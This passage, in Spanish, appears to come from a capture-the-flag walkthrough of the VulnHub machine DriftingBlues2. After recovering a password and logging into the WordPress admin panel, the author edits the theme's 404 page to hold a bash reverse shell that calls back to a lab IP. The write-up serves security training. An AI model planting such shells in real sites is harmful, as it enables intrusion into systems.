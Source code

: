 Encontramos el password del usuario, ahora podemos loguearnos en el panel de administración.

![wp-admin](/assets/img/commons/vulnhub/DriftingBlues2/wp-admin.png){: .center-image }

## Explotación

---

Una vez que tenemos acceso al panel de administración de Wordpress, el objetivo ahora será poder enviarnos una reverse shell para ingresar al sistema.

Lo que hago en este punto es modificar el archivo de error 404 del tema, cargando la reverse shell.

```bash
system("bash -c 'bash -i >& /dev/tcp/10.11.12.10/443 0>&1'");
```

![404](/assets/img/commons/vulnhub/DriftingBlues2/404.png){: .center-image }
